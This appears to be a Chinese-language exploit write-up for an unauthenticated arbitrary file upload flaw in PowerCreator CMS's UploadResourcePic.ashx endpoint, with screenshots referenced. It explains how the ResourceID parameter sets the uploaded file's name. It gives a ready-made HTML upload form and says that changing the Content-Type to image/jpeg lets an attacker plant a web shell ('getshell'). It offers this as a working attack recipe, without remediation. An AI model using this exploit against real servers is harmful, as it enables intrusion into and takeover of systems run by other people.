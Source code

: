 直接访问，没传递rid变量，回显参数错误，因此上传接口前面没有任何校验，可以直接进行文件上传操作

![20201104210127-d9de64b2-1e9d-1](resource/PowerCreatorCms任意上传/media/20201104210127-d9de64b2-1e9d-1.png)

给rid变量赋个值，也即任意使用get方法或者post方法传递ResourceID变量，但是由于不存在文件上传操作，报文类型不符合multipart/form-data规范，因此返回-1

![20201104210302-12435cb8-1e9e-1](resource/PowerCreatorCms任意上传/media/20201104210302-12435cb8-1e9e-1.png)

那么只要本地构造一个上传表单，在上传的时候将Content-Type改成image/jpeg，就可以进行任意文件上传，上传过后文件命会是ResourceID变量的值进行base64编码+上传文件的扩展名

本地构造表单

```html
<form action="http://xxx.xxx.xxx.xxx/upload/UploadResourcePic.ashx?ResourceID=1" enctype="multipart/form-data" method="POST">
<input type="file" class="file1" name="file1" />
<button type="submit" class="but1">上传</button>
</form>
```

改一个Content-Type为image/jpeg，即可成功getshell
